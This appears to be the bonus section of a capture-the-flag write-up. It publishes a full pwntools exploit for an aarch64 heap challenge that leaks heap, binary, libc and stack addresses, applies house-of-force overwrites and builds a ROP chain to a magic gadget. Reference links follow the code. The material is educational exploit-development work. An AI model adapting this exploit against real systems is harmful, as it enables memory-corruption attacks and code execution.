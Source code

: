 # Bonus

Let's publish the overly complicated payload for future reference on how to ROP in aarch64. The helper functions are not shown because they are the same as with the previous payload:

```python
if __name__ == '__main__':
    add_entry(large='8')
    _, _, heap_addr = print_entries(1)
    heap_addr = int(heap_addr, 16)
    offset = heap_addr & 0xfff
    malicious_size =  -offset - 0x20 - 0x110

    log.info('Leaked heap_addr: 0x{:x}'.format(heap_addr))
    log.info('Malicious size: {}'.format(malicious_size))

    name = p64(0xffffffffffffffff) * 31
    add_entry(name=name, large=str(malicious_size))
    add_entry(small='B'*0x100)
    _, _, text_addr = print_entries(3)
    text_addr = int(text_addr, 16)
    log.info('Leaked .text_addr: 0x{:x}'.format(text_addr))
    add_entry(name='A' * 0x100 + p64(text_addr + (0x12200 - 0xf54) + 0x10))
    add_entry()
    _, libc_addr, _ = print_entries(5)
    libc_addr = libc_addr.strip('\n') # offset base: 0x1485c8
    libc_addr = u64(libc_addr + '\0' * (8 - len(libc_addr)))
    libc_base = libc_addr - 0x1485c8
    log.info('Leaked libc_addr: 0x{:x}'.format(libc_addr))
    log.info('Leaked libc_base: 0x{:x}'.format(libc_base))

    environ = libc_addr + 0x1700
    add_entry(name='A' * 0x100 + p64(environ))
    add_entry()
    _, stack_addr, _ = print_entries(7)
    stack_addr = stack_addr.strip('\n')
    stack_addr = u64(stack_addr + '\0' * (8 - len(stack_addr)))
    log.info('Leaked stack_addr: 0x{:x}'.format(stack_addr))

    #house of force to overwrite line ptr
    malicious_size =  text_addr + (0x12620 - 0xf54)
    malicious_size -= (heap_addr - 0x1d0)
    add_entry(name=name, large=str(malicious_size))
    offset = 0x180 - 0xb0
    add_entry(name=p64(stack_addr - offset)[:-1])

    #house of force to overwrite exit with ret
    gadget1_offset = 0x00000000000c5818 #: add sp, sp, #0x100 ; ret
    gadget2_offset = 0x0000000000023ba8 #: ldp x23, x24, [sp, #0x30] ; ldp x29, x30, [sp], #0x40 ; ret
    magic_gadget = libc_base + 0x3fe40
    malicious_size =  0x12220
    malicious_size -= (0x12620 + 0x110 + 0x110)
    add_entry(name=name, large=str(malicious_size))
    add_entry(name='D' * 8 * 8 + p64(libc_base + gadget1_offset))
    payload = p64(0x31) # trigger malloc
    payload += p64(stack_addr)
    payload += p64(libc_base + gadget2_offset)
    payload += p64(stack_addr-8) * 6
    payload += p64(0)
    payload += p64(magic_gadget)
    payload += p64(stack_addr-16) * 6
    payload += p64(libc_base + 0x11b3c0) * 9
```

[system]: http://man7.org/linux/man-pages/man3/system.3.html
[malloc]: http://man7.org/linux/man-pages/man3/malloc.3.html
[mmap]: http://man7.org/linux/man-pages/man2/mmap.2.html
[read]: http://man7.org/linux/man-pages/man2/read.2.html
[exit]: http://man7.org/linux/man-pages/man3/exit.3.html
[strcpy]: http://man7.org/linux/man-pages/man3/strncpy.3.html
[strdup]: http://man7.org/linux/man-pages/man3/strdup.3.html
[strtol]: http://man7.org/linux/man-pages/man3/strtol.3.html
[qemu]: http://wiki.qemu.org/Main_Page
[phrak]: http://phrack.org/issues/66/10.html
[shellphish]: https://github.com/shellphish/how2heap/blob/master/house_of_force.c
[pwntools]: https://github.com/Gallopsled/pwntools
[minsize]: https://sourceware.org/git/?p=glibc.git;a=blob_plain;f=malloc/malloc.c;hb=HEAD
[socat]: http://www.dest-unreach.org/socat/
[magicgadget]: {% post_url 2016-03-30-Radare2-of-the-Lost-Magic-Gadget %}
[execve]: http://man7.org/linux/man-pages/man2/execve.2.html
[callconv]: https://en.wikipedia.org/wiki/Calling_convention#ARM_.28A64.29